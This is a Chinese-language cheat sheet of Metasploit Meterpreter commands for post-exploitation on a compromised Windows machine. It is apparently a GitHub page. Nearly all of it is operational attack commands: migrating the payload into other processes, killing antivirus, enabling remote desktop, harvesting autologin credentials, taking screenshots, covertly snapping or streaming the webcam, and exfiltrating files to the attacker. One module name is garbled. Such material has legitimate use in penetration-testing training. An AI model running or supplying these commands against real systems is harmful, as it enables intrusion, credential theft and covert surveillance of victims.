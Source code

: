# Metasploit-Meterpreter-Shell信息收集相关的命令

PS：以下所有的命令都是在Metasploit-Meterpreter Shell下执行的。

## 进程迁移 

1、获取目标机正在运行的进程

```
ps
```

2.查看Meterpreter Shell的进程号

```
getpid
```

3.将Meterpreter Shell进程绑定到其他进程中

```
migrate 要绑定到的进程id号
```

4.系统自动寻找合适的进程迁移

```
run post/windows/manage/migrate
```

## 系统命令

1.查看目标机的系统信息

```
sysinfo
```

2.查看目标机是否运行在虚拟机上

```
run post/windows/gather/checkvm
```

3.查看目标机最近的运行时间

```
idletime
```

4.查看目标机完整的网路设置

```
route
```

5.将当前会话放到后台

```
background
```

6.查看目标机器上已经渗透成功的用户名

```
getuid
```

7.关闭目标机杀毒软件

```
run post/windows/manage/killav
```

8.启动目标机的远程桌面协议

```
run post/windows/manage/enable_rdp
```

9.查看目标机的本地子网情况

```
run post/windows/manage/autoroute
```

10.列举当前有多少用户登录了目标机

```
run post/windows/gather/enum_logged_on_users
```

11.列举安装在目标机上的应用程序

```
run post/windows/gather/enum_applications
```

12.抓取目标机自动登录的用户名和密码

```
run post/windows/gather/credentials/windows)autologin
```

13.抓取目标机屏幕截图

```
load espia
screengrab
```

或者

```
screenshot
```

14.查看目标机有没有摄像头

```
webcam_list
```

15.打开目标机摄像头拍照

```
webcam_snap
```

此命令会将目标机摄像头拍照的图片，以图片的形式保存在攻击机的/root目录下

16.开启摄像头直播模式

```
webcam_stream
```

此命令会将目标机摄像头录制的视频，以html文件的形式保存在攻击机的/root目录下

17.进行目标机shell

```
shell
```

18.停止Meterpreter会话或者停止Shell会话返回Meterpreter

```
exit
```

## 文件系统命令

1.查看当前处于目标机的哪个目录

```
pwd或getwd
```

2.查看当前处于本地的哪个目录

```
getlwd
```

3.列举目标机当前目录中的所有文件

```
ls
```

4.切换目标机目录

```
cd
```

5.搜索C盘所有以.txt为扩展名的文件

```
search -f *.txt -d c:\
```

其中，-f参数用于执行搜索文件模式，-d参数用于指定在哪个目录下进行搜索

6.下载目标机C盘的test.txt文件到攻击机/root下

```
download c:\test.txt /root
```

7.上传攻击机root目录下的test.txt文件到目标机C盘下

```
upload /root/test.txt c:\
```

## 